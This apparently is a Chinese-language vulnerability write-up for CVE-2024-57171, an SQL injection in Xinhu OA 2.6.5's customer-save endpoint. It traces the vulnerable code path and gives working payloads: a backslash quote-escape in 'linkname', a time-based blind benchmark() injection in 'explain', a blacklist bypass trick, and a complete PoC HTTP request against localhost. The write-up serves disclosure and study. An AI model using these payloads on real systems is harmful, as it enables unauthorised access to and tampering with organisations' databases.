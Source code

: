 ```yaml
---
title: xinhu-CVE-2024-57171
date: 2024-12-11 13:59:42
tags:
---
```


# CVE-2024-57171

https://github.com/rainrocka/xinhu.git

版本：信呼OA的2.6.5版本

# 1.客户管理处存在sql注入

新增客户

![image-20241211135947241](xinhu-CVE-2024-57171/image-20241211135947241.png)

## 抓包查看路由

![image-20241211141944099](xinhu-CVE-2024-57171/image-20241211141944099.png)

## 源码定位

index.php#34 引用了View.php

![image-20241211142000159](xinhu-CVE-2024-57171/image-20241211142000159.png)

View.php中对参数解析，再引用

![image-20241211142052217](xinhu-CVE-2024-57171/image-20241211142052217.png)

```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=792761
```

变为

```
$m = mode_customer
$_m=input
$a=save
$actname = saveAjax
```

![image-20241211142028415](xinhu-CVE-2024-57171/image-20241211142028415.png)

如上图，最终调用 mode_customerClassAction.saveAjax

由于mode_customerClassAction没有saveAjax，因此最终调用inputAction.saveAjax

![image-20241211142519559](xinhu-CVE-2024-57171/image-20241211142519559.png)

![image-20241211142601009](xinhu-CVE-2024-57171/image-20241211142601009.png)

在241进行数据库保存，为了方便调试，将$uaarr输出进行参数查看

![image-20241211143500206](xinhu-CVE-2024-57171/image-20241211143500206.png)

## 动态调试

在新增客户中，随便找个参数，通过添加 \ 进行绕过

```
linkname=a3\
```

payload为

```
id=0&sxuanfileid=&name=1234&laiyuan=%E7%BD%91%E4%B8%8A%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=22&mobile=33&sheng=&shi=44&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```

此时返回包出现报错

![image-20241211143612285](xinhu-CVE-2024-57171/image-20241211143612285.png)

进入日志查看具体的sql语法

![image-20241211143635809](xinhu-CVE-2024-57171/image-20241211143635809.png)

sql语法使用单引号闭合并且没有对 \ 进行处理导致引号错误

改一下payload

```
linkname=a3\
explain=1%20--%20
```

报错如下图

![image-20241211144333907](xinhu-CVE-2024-57171/image-20241211144333907.png)

将语句复制到sql查询中查看，此时引号闭合且 1 成功逃逸

![image-20241211144349374](xinhu-CVE-2024-57171/image-20241211144349374.png)

将explain中的1删掉

![image-20241211144439955](xinhu-CVE-2024-57171/image-20241211144439955.png)

成功添加用户

将1改成时间盲注的语句

```
linkname=a3\
explain=;(select(if(1=1,(benchmark(10000000,SHA1('Hello'))),2)=1))%20--%20
```

还是报错了

![image-20241211145715648](xinhu-CVE-2024-57171/image-20241211145715648.png)

时间盲注语句在sql查询中能正常执行，但在这里不行。说明可能是分号的问题，将分号去掉改成逗号

```
linkname=a3\
explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20
```

![image-20241211145739182](xinhu-CVE-2024-57171/image-20241211145739182.png)

成功盲注

## POC

```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=131480 HTTP/1.1
Host: 127.0.0.1
Content-Length: 368
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/?a=lu&m=input&d=flow&num=customer&mid=0&callback=opegs1733901100171_7188
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: deviceid=1733896888157; xinhu_ca_adminuser=admin; xinhu_ca_rempass=1; PHPSESSID=0gjig9u51nhbp8m7cijt12e520; xinhu_mo_adminid=dv0cj0xxb0cx0xjx0dm0mu0xxd0vj0xll0mj0xju0md0mx0mw0cd012; xinhu_ca_adminpass=lw0lx0li0hhj0wx0lx0ei0hio0xx0hoj0xx0el06
Connection: close

id=0&sxuanfileid=&name=11&laiyuan=%E7%94%B5%E8%AF%9D%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=&mobile=&sheng=&shi=&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```



# 补充

测试过程中发现黑名单，可以直接去源码中搜被过滤的字符串从而找到黑名单;加逗号是因为php数组以逗号隔开元素

```
select被过滤 -> select,
```

![image-20241211150215134](xinhu-CVE-2024-57171/image-20241211150215134.png)

![image-20241211150258765](xinhu-CVE-2024-57171/image-20241211150258765.png)

